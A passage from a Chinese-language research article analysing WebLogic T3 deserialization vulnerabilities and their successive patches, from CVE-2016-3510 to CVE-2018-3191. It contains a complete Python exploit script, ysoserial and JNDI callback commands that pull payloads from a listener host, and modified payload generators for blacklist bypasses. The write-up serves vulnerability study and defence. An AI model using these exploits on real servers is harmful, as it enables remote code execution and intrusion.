绕过原理：先将恶意的反序列化对象封装在StreamMessageImpl对象中，然后再对StreamMessageImpl对象进行反序列化，将生成的payload发送至目标服务器。  
目标服务器拿到payload字节码后，读取到类名StreamMessageImpl，此类名不在黑名单中，故可以绕过resolveClass中的过滤。在调用StreamMessageImpl的readObject时，底层会调用其readExternal方法，对封装的序列化数据进行反序列化，从而调用恶意类的readObject函数

**修复**：  
2016年4月p22505423\_1036\_Generic发布的补丁  
在weblogic.jms.common.StreamMessageImpl的readExternal方法创建的ObjectInputStream换成了自定义的FilteringObjectInputStream，并在其中对类进行了过滤，使用网上的一张图  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020170538-d6189464-6f27-1.png)

**参考**：  
[https://www.cnblogs.com/nice0e3/p/14207435.html](https://www.cnblogs.com/nice0e3/p/14207435.html)  
[https://xz.aliyun.com/t/8529](https://xz.aliyun.com/t/8529)  
[https://xz.aliyun.com/t/10173](https://xz.aliyun.com/t/10173)

### 3.4 CVE-2016-3510分析

**漏洞分析**：  
此漏洞的利用方式与CVE-2016-0638一致，只不过这里不再借助StreamMessageImpl类，而是借助MarshalledObject类  
继续分析weblogic\_cmd代码，结合下面代码

```plain
public static Object selectBypass(Object payload) throws Exception {

    if (Main.TYPE.equalsIgnoreCase("marshall")) {
        payload = marshalledObject(payload);
    } else if (Main.TYPE.equalsIgnoreCase("streamMessageImpl")) {
        payload = streamMessageImpl(Serializables.serialize(payload));
    }
    return payload;
}
```

前面提到，TYPE为streamMessageImpl时，会选择StreamMessageImpl作为绕过黑名单的类，而TYPE为marshall时，则选择MarshalledObject作为绕过黑名单的类  
进入marshalledObject方法，此时传递的参数是恶意的对象

```plain
private static Object marshalledObject(Object payload) {
    MarshalledObject marshalledObject = null;
    try {
        marshalledObject = new MarshalledObject(payload);
    } catch (IOException e) {
        e.printStackTrace();
    }
    return marshalledObject;
}
```

这里将第一层payload作为参数实例化一个MarshalledObject对象并返回，观察MarshalledObject类的构造函数

```plain
public MarshalledObject(Object var1) throws IOException {
    if (var1 == null) {
        this.hash = 13;
    } else {
        // 创建一个ByteArrayOutputStream对象var2
        ByteArrayOutputStream var2 = new ByteArrayOutputStream();
        // 并将其作为参数传递给MarshalledObjectOutputStream类的构造函数，创建一个MarshalledObjectOutputStream对象var3
        MarshalledObjectOutputStream var3 = new MarshalledObjectOutputStream(var2);
        // 将传入的Java对象通过var3.writeObject方法序列化为字节流，并通过var3.flush方法刷新输出流
        var3.writeObject(var1);
        var3.flush();
        // 通过var2.toByteArray方法获取字节流的字节数组，并将该字节数组赋值给objBytes属性
        // 重点在这里，目标payload的字节流存放在这当中
        this.objBytes = var2.toByteArray();
        int var4 = 0;

        // 计算字节数组的哈希值，并将哈希值赋值给hash属性
        for(int var5 = 0; var5 < this.objBytes.length; ++var5) {
            var4 = 31 * var4 + this.objBytes[var5];
        }

        this.hash = var4;
    }
}
```

最终恶意的payload存放在MarshalledObject对象的objBytes属性中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020170602-e4de22f2-6f27-1.png)  
如何对objBytes读取并调用readObject呢？  
在MarshalledObject类中存在一个方法readResolve，它能够将属性objBytes的字节流反序列化成Java对象

```plain
public Object readResolve() throws IOException, ClassNotFoundException, ObjectStreamException {
    if (this.objBytes == null) {
        return null;
    } else {
        // 创建一个ByteArrayInputStream对象var1，并将objBytes属性作为参数传递给它
        ByteArrayInputStream var1 = new ByteArrayInputStream(this.objBytes);
        // 创建一个ObjectInputStream对象var2，该对象可以将字节流反序列化为Java对象
        ObjectInputStream var2 = new ObjectInputStream(var1);
        Object var3 = var2.readObject();
        var2.close();
        return var3;
    }
}
```

那么readResolve方法在什么时候调用？  
继续在InboundMsgAbbrev.class的resolveClass方法和MarshalledObject的readResolve方法下断点，使用weblogic\_cmd执行一次  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020170622-f0b30372-6f27-1.png)  
这里的类名是MarshalledObject，不在黑名单中，故可以绕过isBlackListed方法的判断  
继续执行，到下一个断点，执行到MarshalledObject的readResolve方法的调用栈

```plain
readResolve:56, MarshalledObject (weblogic.corba.utils)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:57, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:601, Method (java.lang.reflect)
invokeReadResolve:1091, ObjectStreamClass (java.io)
readOrdinaryObject:1805, ObjectInputStream (java.io)
readObject0:1348, ObjectInputStream (java.io)
readObject:370, ObjectInputStream (java.io)
readObject:69, InboundMsgAbbrev (weblogic.rjvm)
read:41, InboundMsgAbbrev (weblogic.rjvm)
readMsgAbbrevs:283, MsgAbbrevJVMConnection (weblogic.rjvm)
init:215, MsgAbbrevInputStream (weblogic.rjvm)
dispatch:498, MsgAbbrevJVMConnection (weblogic.rjvm)
dispatch:330, MuxableSocketT3 (weblogic.rjvm.t3)
dispatch:394, BaseAbstractMuxableSocket (weblogic.socket)
readReadySocketOnce:960, SocketMuxer (weblogic.socket)
readReadySocket:897, SocketMuxer (weblogic.socket)
processSockets:130, PosixSocketMuxer (weblogic.socket)
run:29, SocketReaderRequest (weblogic.socket)
execute:42, SocketReaderRequest (weblogic.socket)
execute:145, ExecuteThread (weblogic.kernel)
run:117, ExecuteThread (weblogic.kernel)
```

这与上面的resolveClass、readExternal方法一样，都是在执行readObject方法的底层执行  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020170642-fc5514b8-6f27-1.png)  
最后会调用恶意对象的readObject方法，执行CC1链

**总结**：  
在Java中，当一个对象被序列化时，会将对象的类型信息和对象的数据一起写入流中。当流被反序列化时，Java会根据类型信息创建对象，并将对象的数据从流中读取出来，然后调用对象中的readObject方法将数据还原到对象中，最终返回一个Java对象。在Weblogic中，当从流量中获取到普通类序列化数据的类对象后，程序会依次尝试调用类对象中的readObject、readResolve、readExternal等方法，以恢复对象的状态。

readObject方法是Java中的一个成员方法，用于从流中读取对象的数据，并将其还原到对象中。该方法可以被对象重写，以实现自定义的反序列化逻辑。

readResolve方法是Java中的一个成员方法，用于在反序列化后恢复对象的状态。当对象被反序列化后，Java会检查对象中是否存在readResolve方法，如果存在，则会调用该方法恢复对象的状态。

readExternal方法是Java中的一个成员方法，用于从流中读取对象的数据，并将其还原到对象中。该方法通常被用于实现Java标准库中的可序列化接口Externalizable，以实现自定义的序列化逻辑。

**修复**：  
2016年10月发布的p23743997\_1036\_Generic补丁  
在weblogic.corba.utils.MarshalledObject的readResolve方法中创建一个匿名内部类，重写resolveClass方法，加上了黑名单过滤，使用网上的一张图  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020170702-08341ad6-6f28-1.png)

**参考**：  
[https://www.cnblogs.com/nice0e3/p/14269444.html](https://www.cnblogs.com/nice0e3/p/14269444.html)

### 3.5 CVE-2017-3248分析

**漏洞复现**：

```plain
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections1 'touch /tmp/cve-2017-3248'
python cve-2017-3248.py 127.0.0.1 7001 ysoserial-all.jar 127.0.0.1 9999 JRMPClient

#在docker中执行
/java/bin/java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections1 'touch /tmp/cve-2017-3248'
python cve-2017-3248.py 127.0.0.1 7001 ysoserial-all.jar 127.0.0.1 9999 JRMPClient
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231020170727-176ab316-6f28-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020170747-22fabc94-6f28-1.png)

最终命令执行成功，在/tmp目录下新建了cve-2017-3248文件  
**exp**：

```plain
from __future__ import print_function

import binascii
import os
import socket
import sys
import time


def generate_payload(path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client):
    #generates ysoserial payload
    command = 'java -jar {} {} {}:{} > payload.out'.format(path_ysoserial, jrmp_client, jrmp_listener_ip, jrmp_listener_port)
    print("command: " + command)
    os.system(command)
    bin_file = open('payload.out','rb').read()
    return binascii.hexlify(bin_file)


def t3_handshake(sock, server_addr):
    sock.connect(server_addr)
    sock.send('74332031322e322e310a41533a3235350a484c3a31390a4d533a31303030303030300a0a'.decode('hex'))
    time.sleep(1)
    data = sock.recv(1024)
    print(data)
    print('handshake successful')


def build_t3_request_object(sock, port):
    data1 = '000005c3016501ffffffffffffffff0000006a0000ea600000001900937b484a56fa4a777666f581daa4f5b90e2aebfc607499b4027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c657400124c6a6176612f6c616e672f537472696e673b4c000a696d706c56656e646f7271007e00034c000b696d706c56657273696f6e71007e000378707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e56657273696f6e496e666f972245516452463e0200035b00087061636b616765737400275b4c7765626c6f6769632f636f6d6d6f6e2f696e7465726e616c2f5061636b616765496e666f3b4c000e72656c6561736556657273696f6e7400124c6a6176612f6c616e672f537472696e673b5b001276657273696f6e496e666f417342797465737400025b42787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c6571007e00044c000a696d706c56656e646f7271007e00044c000b696d706c56657273696f6e71007e000478707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200217765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e50656572496e666f585474f39bc908f10200064900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463685b00087061636b616765737400275b4c7765626c6f6769632f636f6d6d6f6e2f696e7465726e616c2f5061636b616765496e666f3b787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e56657273696f6e496e666f972245516452463e0200035b00087061636b6167657371'
    data2 = '007e00034c000e72656c6561736556657273696f6e7400124c6a6176612f6c616e672f537472696e673b5b001276657273696f6e496e666f417342797465737400025b42787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c6571007e00054c000a696d706c56656e646f7271007e00054c000b696d706c56657273696f6e71007e000578707702000078fe00fffe010000aced0005737200137765626c6f6769632e726a766d2e4a564d4944dc49c23ede121e2a0c000078707750210000000000000000000d3139322e3136382e312e323237001257494e2d4147444d565155423154362e656883348cd6000000070000{0}ffffffffffffffffffffffffffffffffffffffffffffffff78fe010000aced0005737200137765626c6f6769632e726a766d2e4a564d4944dc49c23ede121e2a0c0000787077200114dc42bd07'.format('{:04x}'.format(dport))
    data3 = '1a7727000d3234322e323134'
    data4 = '2e312e32353461863d1d0000000078'
    for d in [data1,data2,data3,data4]:
        sock.send(d.decode('hex'))
    time.sleep(2)
    print('send request payload successful,recv length:%d'%(len(sock.recv(2048))))


def send_payload_objdata(sock, data):
    payload='056508000000010000001b0000005d010100737201787073720278700000000000000000757203787000000000787400087765626c6f67696375720478700000000c9c979a9a8c9a9bcfcf9b939a7400087765626c6f67696306fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200025b42acf317f8060854e002000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200106a6176612e7574696c2e566563746f72d9977d5b803baf010300034900116361706163697479496e6372656d656e7449000c656c656d656e74436f756e745b000b656c656d656e74446174617400135b4c6a6176612f6c616e672f4f626a6563743b78707702000078fe010000'
    payload+=data
    payload+='fe010000aced0005737200257765626c6f6769632e726a766d2e496d6d757461626c6553657276696365436f6e74657874ddcba8706386f0ba0c0000787200297765626c6f6769632e726d692e70726f76696465722e426173696353657276696365436f6e74657874e4632236c5d4a71e0c0000787077020600737200267765626c6f6769632e726d692e696e7465726e616c2e4d6574686f6444657363726970746f7212485a828af7f67b0c000078707734002e61757468656e746963617465284c7765626c6f6769632e73656375726974792e61636c2e55736572496e666f3b290000001b7878fe00ff'
    payload = '%s%s'%('{:08x}'.format(len(payload)/2 + 4),payload)
    sock.send(payload.decode('hex'))
    time.sleep(2)
    sock.send(payload.decode('hex'))
    res = ''
    try:
        while True:
            res += sock.recv(4096)
            time.sleep(0.1)
    except Exception:
        pass
    return res


def exploit(dip, dport, path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(65)
    server_addr = (dip, dport)
    t3_handshake(sock, server_addr)
    build_t3_request_object(sock, dport)
    payload = generate_payload(path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client)
    print("payload: " + payload)
    rs=send_payload_objdata(sock, payload)
    print('response: ' + rs)
    print('exploit completed!')


if __name__=="__main__":
    #check for args, print usage if incorrect
    if len(sys.argv) != 7:
        print('\nUsage:\nexploit.py [victim ip] [victim port] [path to ysoserial] '
              '[JRMPListener ip] [JRMPListener port] [JRMPClient]\n')
        sys.exit()

    dip = sys.argv[1]
    dport = int(sys.argv[2])
    path_ysoserial = sys.argv[3]
    jrmp_listener_ip = sys.argv[4]
    jrmp_listener_port = sys.argv[5]
    jrmp_client = sys.argv[6]
    exploit(dip, dport, path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client)
```

payloads.JRMPClient中payload的构造：

```plain
public Registry getObject ( final String command ) throws Exception {

    String host;
    int port;
    int sep = command.indexOf(':');
    if ( sep < 0 ) {
        port = new Random().nextInt(65535);
        host = command;
    }
    else {
        host = command.substring(0, sep);
        port = Integer.valueOf(command.substring(sep + 1));
    }
    ObjID id = new ObjID(new Random().nextInt()); // RMI registry
    TCPEndpoint te = new TCPEndpoint(host, port);
    UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
    RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
    Registry proxy = (Registry) Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] {
        Registry.class
    }, obj);
    return proxy;
}
```

**漏洞分析**：  
首先分析的是输入流中的类能否绕过resolveClass中的过滤，经过断点调试及ysoserial中payload的生成，最终输出流中包装的类java.rmi.server.RemoteObjectInvocationHandler不在黑名单中，故这种方式可绕过resolveClass的过滤  
在命令最终执行得地方下断点，利用得CC1链，即在InvokerTransformer类的transform方法上下断点  
函数调用栈：

```plain
transform:119, InvokerTransformer (org.apache.commons.collections.functors)
transform:122, ChainedTransformer (org.apache.commons.collections.functors)
get:157, LazyMap (org.apache.commons.collections.map)
invoke:69, AnnotationInvocationHandler (sun.reflect.annotation)
entrySet:-1, $Proxy74 (com.sun.proxy)
readObject:346, AnnotationInvocationHandler (sun.reflect.annotation)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:57, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:601, Method (java.lang.reflect)
invokeReadObject:1004, ObjectStreamClass (java.io)
readSerialData:1891, ObjectInputStream (java.io)
readOrdinaryObject:1796, ObjectInputStream (java.io)
readObject0:1348, ObjectInputStream (java.io)
defaultReadFields:1989, ObjectInputStream (java.io)
readSerialData:1913, ObjectInputStream (java.io)
readOrdinaryObject:1796, ObjectInputStream (java.io)
readObject0:1348, ObjectInputStream (java.io)
readObject:370, ObjectInputStream (java.io)
executeCall:243, StreamRemoteCall (sun.rmi.transport)
invoke:377, UnicastRef (sun.rmi.server)
dirty:-1, DGCImpl_Stub (sun.rmi.transport)
makeDirtyCall:360, DGCClient$EndpointEntry (sun.rmi.transport)
registerRefs:303, DGCClient$EndpointEntry (sun.rmi.transport)
registerRefs:139, DGCClient (sun.rmi.transport)
read:312, LiveRef (sun.rmi.transport)
readExternal:491, UnicastRef (sun.rmi.server)
readObject:455, RemoteObject (java.rmi.server)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:57, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:601, Method (java.lang.reflect)
invokeReadObject:1004, ObjectStreamClass (java.io)
readSerialData:1891, ObjectInputStream (java.io)
readOrdinaryObject:1796, ObjectInputStream (java.io)
readObject0:1348, ObjectInputStream (java.io)
defaultReadFields:1989, ObjectInputStream (java.io)
readSerialData:1913, ObjectInputStream (java.io)
readOrdinaryObject:1796, ObjectInputStream (java.io)
readObject0:1348, ObjectInputStream (java.io)
readObject:370, ObjectInputStream (java.io)
readObject:69, InboundMsgAbbrev (weblogic.rjvm)
read:41, InboundMsgAbbrev (weblogic.rjvm)
readMsgAbbrevs:283, MsgAbbrevJVMConnection (weblogic.rjvm)
init:215, MsgAbbrevInputStream (weblogic.rjvm)
dispatch:498, MsgAbbrevJVMConnection (weblogic.rjvm)
dispatch:330, MuxableSocketT3 (weblogic.rjvm.t3)
dispatch:394, BaseAbstractMuxableSocket (weblogic.socket)
readReadySocketOnce:960, SocketMuxer (weblogic.socket)
readReadySocket:897, SocketMuxer (weblogic.socket)
processSockets:130, PosixSocketMuxer (weblogic.socket)
run:29, SocketReaderRequest (weblogic.socket)
execute:42, SocketReaderRequest (weblogic.socket) 
execute:145, ExecuteThread (weblogic.kernel)
run:117, ExecuteThread (weblogic.kernel)
```

进入到InboundMsgAbbrev的readObject方法，这里对weblogic T3协议传过来的数据进行反序列化操作  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020171108-9ac65238-6f28-1.png)  
ServerChannelInputStream继承ObjectInputStream，继续往上查看调用readObject的地方，中间可以忽略ObjectInputStream readObject方法的底层执行，来到RemoteObject的readObject方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020171133-aa217438-6f28-1.png)  
如果对ysoserial的JRMP模块进行分析过，就能够清楚了解后面的这条链  
详细参考：[https://xz.aliyun.com/t/12780](https://xz.aliyun.com/t/12780)

**大致流程**：  
从最开始到现在的漏洞，需要明白恶意的payload都是寄托在T3协议之上的，将恶意的payload通过T3协议发送给weblogic服务器，weblogic服务器会对其进行反序列化，但是在InboundMsgAbbrev的resolveClass方法中，会对payload中的类进行过滤，只要绕过了黑名单，恶意的payload就会反序列化导致命令执行  
使用exploit.JRMPListener开启9999端口远程对象调用服务，对应的是CC1链构造的恶意payload1  
使用python脚本与weblogic服务通信，发送由payloads.JRMPClient生成的payload2，payload2在weblogic反序列化后会与JRMPListener的9999端口请求，得到恶意的payload2后，反序列化后会导致命令的执行

**修复**：  
官方给出了p24667634\_1036\_Generic补丁，修复点还是添加黑名单  
在InboundMsgAbbrev.ServerChannelInputStream中，对`java.rmi.registry.Registry`进行过滤

```plain
protected Class<?> resolveProxyClass(String[] interfaces) throws IOException, ClassNotFoundException {
   String[] arr$ = interfaces;
   int len$ = interfaces.length;
   for(int i$ = 0; i$ < len$; ++i$) {
      String intf = arr$[i$];
      if(intf.equals("java.rmi.registry.Registry")) {
         throw new InvalidObjectException("Unauthorized proxy deserialization");
      }
   }
   return super.resolveProxyClass(interfaces);
}
```

**参考**：  
[https://www.cnblogs.com/nice0e3/p/14275298.html](https://www.cnblogs.com/nice0e3/p/14275298.html)  
[https://www.anquanke.com/post/id/225137](https://www.anquanke.com/post/id/225137)

### 3.6 CVE-2018-2628分析

可以看到在cve-2017-3248中的补丁中，在resolveProxyClass方法中对`java.rmi.registry.Registry`进行了过滤。  
在readObject底层操作中，存在两条路，一条是resolveClass，另一条是resolveProxyClass。当反序列化的是动态代理对象，就会走到resolveProxyClass方法中，如果取消Proxy的包装，就能够绕过resolveProxyClass方法

**绕过分析**  
两种利用方式  
第一：去除Proxy，修改payloads.JRMPClient生成payload

```plain
public Registry getObject ( final String command ) throws Exception {

    String host;
    int port;
    int sep = command.indexOf(':');
    if ( sep < 0 ) {
        port = new Random().nextInt(65535);
        host = command;
    }
    else {
        host = command.substring(0, sep);
        port = Integer.valueOf(command.substring(sep + 1));
    }
    ObjID id = new ObjID(new Random().nextInt()); // RMI registry
    TCPEndpoint te = new TCPEndpoint(host, port);
    UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
    // 删除下面
    // RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
    // Registry proxy = (Registry) Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] {
    //     Registry.class
    // }, obj);
    // return proxy;
    // 直接返回UnicastRef对象
    return ref;
}
```

修改后打成jar包，然后按照cve-2017-3248的步骤即可利用  
第二：使用java.rmi.activation.Activator远程接口  
还是修改payloads.JRMPClient

```plain
public Registry getObject ( final String command ) throws Exception {

    String host;
    int port;
    int sep = command.indexOf(':');
    if ( sep < 0 ) {
        port = new Random().nextInt(65535);
        host = command;
    }
    else {
        host = command.substring(0, sep);
        port = Integer.valueOf(command.substring(sep + 1));
    }
    ObjID id = new ObjID(new Random().nextInt()); // RMI registry
    TCPEndpoint te = new TCPEndpoint(host, port);
    UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
    Activator proxy = (Activator) Proxy.newProxyInstance(JRMPClient2.class.getClassLoader(), new Class[] {
            Activator.class
        }, obj);
    return proxy;
}
```

**修复**：  
2018年发布的p27395085\_1036\_Generic  
其补丁对`sun.rmi.server.UnicastRef`进行了过滤，具体位置在weblogic.utils.io.oif.WebLogicFilterConfig

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102154721-0dd5a9f6-7954-1.jpg)

### 3.7 CVE-2018-2893分析

由于在CVE-2018-2628的补丁后，对`sun.rmi.server.UnicastRef`进行了过滤，所以这里的绕过方式就是CVE-2016-0638与CVE-2017-3248的结合  
修改payloads.JRMPClient  
由于JDK中不存在StreamMessageImpl类，所以需要导入weblogic中的类

```plain
import weblogic.jms.common.StreamMessageImpl;
```

```plain
public Object getObject (final String command ) throws Exception {
    String host;
    int port;
    int sep = command.indexOf(':');
    if (sep < 0) {
        port = new Random().nextInt(65535);
        host = command;
    }
    else {
        host = command.substring(0, sep);
        port = Integer.valueOf(command.substring(sep + 1));
    }
    ObjID objID = new ObjID(new Random().nextInt());
    TCPEndpoint tcpEndpoint = new TCPEndpoint(host, port);
    UnicastRef unicastRef = new UnicastRef(new LiveRef(objID, tcpEndpoint, false));
    RemoteObjectInvocationHandler remoteObjectInvocationHandler = new RemoteObjectInvocationHandler(unicastRef);
    Object object = Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] { Registry.class }, remoteObjectInvocationHandler);

    return streamMessageImpl(Serializer.serialize(object));
    // or
    // StreamMessageImpl streamMessage = new StreamMessageImpl();
    // byte[] serialize = Serializer.serialize(object);
    // streamMessage.setDataBuffer(serialize,serialize.length);
    // return streamMessage;
}
```

**修复**：  
18年7月的p27919965\_1036\_Generic补丁

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102154943-62c65028-7954-1.jpg)

对`java.rmi.activation.*`、`sun.rmi.server.*`、`java.rmi.server.RemoteObjectInvocationHandler`、`java.rmi.server.UnicastRemoteObject`进行了过滤

### 3.8 CVE-2018-3245分析

这里过滤了RemoteObjectInvocationHandler和UnicastRemoteObject，需要重新找到一个替代类，但是总体的思想没有变  
观察CVE-2017-3248中的函数调用栈，会调用RemoteObject的readObject方法，所以这里只需要找到继承`java.rmi.server.RemoteObject`的类就行  
查看RemoteObject的子类：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020171237-d03c8856-6f28-1.png)  
可利用的类：

```plain
javax.management.remote.rmi.RMIConnectionImpl_Stub
com.sun.jndi.rmi.registry.ReferenceWrapper_Stub
javax.management.remote.rmi.RMIServerImpl_Stub
sun.rmi.registry.RegistryImpl_Stub
sun.rmi.transport.DGCImpl_Stub
sun.management.jmxremote.SingleEntryRegistry
```

继续修改payloads.JRMPClient

```plain
import javax.management.remote.rmi.RMIConnectionImpl_Stub;
public Object getObject (final String command ) throws Exception {
    String host;
    int port;
    int sep = command.indexOf(':');
    if (sep < 0) {
        port = new Random().nextInt(65535);
        host = command;
    }
    else {
        host = command.substring(0, sep);
        port = Integer.valueOf(command.substring(sep + 1));
    }
    ObjID objID = new ObjID(new Random().nextInt());
    TCPEndpoint tcpEndpoint = new TCPEndpoint(host, port);
    UnicastRef unicastRef = new UnicastRef(new LiveRef(objID, tcpEndpoint, false));
    RMIConnectionImpl_Stub stub = new RMIConnectionImpl_Stub(ref);
    return stub;
}
```

**修复**  
2018年8月发布的p28343311\_1036\_201808Generic补丁  
它将java.rmi.server.RemoteObject加入到黑名单，使用网上一张图  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020171259-dd7059ee-6f28-1.png)

### 3.9 CVE-2018-3191分析

这个漏洞是T3+JNDI  
**漏洞复现**：  
直接下载这个利用工具[https://github.com/m00zh33/CVE-2018-3191](https://github.com/m00zh33/CVE-2018-3191)  
然后配合JNDI利用工具[https://github.com/welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)  
python脚本依然使用cve-2017-3248的脚本，修改一些参数即可

```plain
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/cve-2018-3191" -A "192.168.155.90"
python cve-2018-3191.py 127.0.0.1 7001 weblogic-spring-jndi-10.3.6.0.jar rmi://192.168.155.90:1099/ushw72
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231020171318-e8322b96-6f28-1.png)

**漏洞分析**：  
在JndiTemplate类的lookup处下断点，开启调试  
函数调用栈：

```plain
lookup:155, JndiTemplate (com.bea.core.repackaged.springframework.jndi)
lookupUserTransaction:565, JtaTransactionManager (com.bea.core.repackaged.springframework.transaction.jta)
initUserTransactionAndTransactionManager:444, JtaTransactionManager (com.bea.core.repackaged.springframework.transaction.jta)
readObject:1198, JtaTransactionManager (com.bea.core.repackaged.springframework.transaction.jta)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:57, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:601, Method (java.lang.reflect)
invokeReadObject:1004, ObjectStreamClass (java.io)
readSerialData:1891, ObjectInputStream (java.io)
readOrdinaryObject:1796, ObjectInputStream (java.io)
readObject0:1348, ObjectInputStream (java.io)
readObject:370, ObjectInputStream (java.io)
readObject:69, InboundMsgAbbrev (weblogic.rjvm)
read:41, InboundMsgAbbrev (weblogic.rjvm)
readMsgAbbrevs:283, MsgAbbrevJVMConnection (weblogic.rjvm)
init:215, MsgAbbrevInputStream (weblogic.rjvm)
dispatch:498, MsgAbbrevJVMConnection (weblogic.rjvm)
dispatch:330, MuxableSocketT3 (weblogic.rjvm.t3)
dispatch:394, BaseAbstractMuxableSocket (weblogic.socket)
readReadySocketOnce:960, SocketMuxer (weblogic.socket)
readReadySocket:897, SocketMuxer (weblogic.socket)
processSockets:130, PosixSocketMuxer (weblogic.socket)
run:29, SocketReaderRequest (weblogic.socket)
execute:42, SocketReaderRequest (weblogic.socket)
execute:145, ExecuteThread (weblogic.kernel)
run:117, ExecuteThread (weblogic.kernel)
```

前面这些步骤不需要管，这条链就4个步骤  
观察initUserTransactionAndTransactionManager方法，userTransactionName是我们设置的rmi地址  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020171336-f37188d0-6f28-1.png)  
最后通过lookup函数查询rmi  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020171356-fefaa93e-6f28-1.png)  
根据以上分析，也可以通过修改ysoserial来获得payload

```plain
public Object getObject(String command) throws Exception {
    // if(command == null) {
    //     command = "rmi://localhost:1099/Exploit";
    // }
    JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
    jtaTransactionManager.setUserTransactionName(command);
    return jtaTransactionManager;
}
```

**修复**：  
2018年8月发布p28343311\_1036\_Generic补丁，它将JtaTransactionManager的父类AbstractPlatformTransactionManager加入到了黑名单  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020171415-0a63fb5e-6f29-1.png)

## 4\. 总结

以上是对基于T3协议的反序列化漏洞进行的详细分析，篇幅过长，基于XML的反序列化漏洞见下篇...

## 5\. 参考

[https://er1cccc.gitee.io/r2/2021/11/04/weblogic%E5%8F%A4%E8%80%81%E6%BC%8F%E6%B4%9E%E6%A2%B3%E7%90%86/](https://er1cccc.gitee.io/r2/2021/11/04/weblogic%E5%8F%A4%E8%80%81%E6%BC%8F%E6%B4%9E%E6%A2%B3%E7%90%86/)  
[http://drops.xmd5.com/static/drops/web-13470.html](http://drops.xmd5.com/static/drops/web-13470.html)  
[https://www.freebuf.com/vuls/229140.html](https://www.freebuf.com/vuls/229140.html)  
[https://xz.aliyun.com/t/9932](https://xz.aliyun.com/t/9932)  
[https://xz.aliyun.com/t/12780](https://xz.aliyun.com/t/12780)
